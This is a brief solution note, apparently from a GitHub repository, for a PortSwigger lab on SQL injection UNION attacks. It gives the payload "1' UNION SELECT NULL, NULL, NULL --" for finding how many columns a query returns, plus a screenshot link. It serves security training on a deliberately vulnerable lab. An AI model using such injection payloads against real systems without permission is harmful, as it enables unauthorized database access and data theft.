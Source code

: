 # Lab: SQL injection UNION attack, determining the number of columns returned by the query

**Link**: https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns

**Solution**: in Query parameter add multiple nullable unions until one is working to know columns number (3), add: 1' UNION SELECT NULL, NULL, NULL --

<p align="center" width="100%">
  <img src="https://github.com/aboelkassem/portswigger-labs/raw/main/SQL%20Injection/Lab%20SQL%20injection%20vulnerability%20in%20WHERE%20clause%20allowing%20retrieval%20of%20hidden%20data/image1.png" width="500" hight="500"/>
</p>
